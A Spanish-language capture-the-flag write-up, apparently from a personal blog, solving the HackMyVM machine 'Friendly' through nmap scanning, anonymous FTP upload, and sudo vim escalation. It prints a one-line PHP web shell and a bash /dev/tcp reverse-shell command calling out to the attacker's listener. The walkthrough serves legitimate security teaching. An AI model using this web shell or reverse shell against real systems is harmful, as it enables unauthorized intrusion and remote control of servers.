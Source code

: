```yaml
---
title: 'Friendly'
date: 2024-01-28T12:47:48-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'CTF', 'ftp', 'Anonymous user', 'sudo', 'vim']
image:
  path: /assets/img/hmvm/friendly/friendly-0.png
---
```


En este artículo, abordaremos la resolución de la máquina [Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly) de la plataforma HackMyVM. La máquina presenta un servicio FTP, al cual accedemos utilizando el usuario `anonymous`, que cuenta con la capacidad de cargar archivos en el servidor. Aprovechando esta funcionalidad, conseguimos cargar un archivo con extensión `.php` y logramos que sea interpretado por el servidor web Apache que se encuentra en ejecución en el puerto 80. De esta manera, logramos obtener acceso al sistema al ejecutar una reverse shell. Para culminar, explotamos una configuración inadecuada de `sudo` para elevar nuestros privilegios, logrando así una exitosa escalada de privilegios.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Friendly](/assets/img/hmvm/friendly/friendly-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 10.10.10.15 -oG scanPorts -vvv
```

![Friendly](/assets/img/hmvm/friendly/friendly-2.png)
_Descubrimiento de puertos abiertos_

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--open`: Solo considerar puertos abiertos.
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 10.10.10.15 -oN targeted -vvv
```

![Friendly](/assets/img/hmvm/friendly/friendly-3.png)
_Descubrimiento de versión y servicio con nmap_

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
`

## Explotación

### FTP - `Anonymous`

Como observamos en el escaneo anterior, el servicio `ftp` permite acceder con el usuario `anonymous`. En este caso, debemos ingresar como contraseña `anonymous@10.10.10.15`.
Al listar el contenido, nos encontramos con un archivo `index.html` el cual nos descargamos para ver su contenido.

![Friendly](/assets/img/hmvm/friendly/friendly-4.png)
_FTP - Descarga de index.html_

Si miramos el contenido del fichero `index.html`, vemos que se corresponde con el tipico archivo de una instancia de Apache.

![Friendly](/assets/img/hmvm/friendly/friendly-5.png)
_Fichero index.html_

Al ingresar al sitio web que esta corriendo bajo el puerto 80, nos encontramos con la página por defecto de una instancia de Apache, lo cual nos hace pensar que es el mismo archivo que nos descargamos.
En otras palabras, tenemos acceso al servidor web por medio de ftp.

![Friendly](/assets/img/hmvm/friendly/friendly-6.png)
_Web por defecto Apache_

Intentos subir un archivo con extensión `.php` para ver si el servidor interpreta este lenguaje.

```php
<?php
# shell.php
system($_GET['cmd']);
```

![Friendly](/assets/img/hmvm/friendly/friendly-7.png)
_Subida de fichero shell.php_

Si accedemos desde el navegador al archivo `shell.php`, vemos que efectivamente se esta interprentado el código `php`, lo que nos concede la capacidad de ejecutar comandos..

![Friendly](/assets/img/hmvm/friendly/friendly-8.png)
_POC shell.php_

### Reverse shell - `www-data`

Conociendo que tenemos capacidad de ejecución de comandos, ganemos acceso al sistema a través de una reverse shell.

En primer lugar, nos ponemos en escucha con netcat `nc` por el puerto `4444`.

![Friendly](/assets/img/hmvm/friendly/friendly-9.png)
_nc_

Ejecutamos la reverse shell.

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.10.5/4444 0>%261'
```

![Friendly](/assets/img/hmvm/friendly/friendly-10.png)
_Reverse Shell_

De esta forma, ganamos acceso al sistema.

![Friendly](/assets/img/hmvm/friendly/friendly-11.png)
_nc_

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Y ya podemos leer el flag de `user.txt`.

![Friendly](/assets/img/hmvm/friendly/friendly-12.png)
_user.txt_

## Escalación de privilegios

### Enumeración del sistema

Luego de realizar una enumeración básica del sistema, vemos que el usuario `RiJaba1` puede ejecutar con `sudo` y sin solicitar contraseña el binario `vim`.

Si hacemos una búsqueda en GTFOBins, podemos ver que existen varias alternativas de poder escalar nuestros privilegios en este contexto [GTFOBins - vim](https://gtfobins.github.io/gtfobins/vim/#sudo), en este caso, usare la primera de ellas.

![Friendly](/assets/img/hmvm/friendly/friendly-13.png)
_sudo -l_

![Friendly](/assets/img/hmvm/friendly/friendly-14.png)
_GTFOBins - vim_

De esta manera, escalamos nuestros privilegios.

![Friendly](/assets/img/hmvm/friendly/friendly-15.png)
_Shell como root_

Pero aún no encontramos el flag de `root`, ya que como indica el mensaje debemos buscar otro archivo `root.txt`.

![Friendly](/assets/img/hmvm/friendly/friendly-16.png)
_root.txt_

Para lo cual, podemos hacer uso del comando `find`.

```bash
find / -name root.txt 2>/dev/null
```

Una vez que encontramos el archivo, podemos leer su contenido.

![Friendly](/assets/img/hmvm/friendly/friendly-17.png)
_root.txt_

De esta forma, llegamos al final del Write-up de la máquina Friendly.

Como siempre, espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!
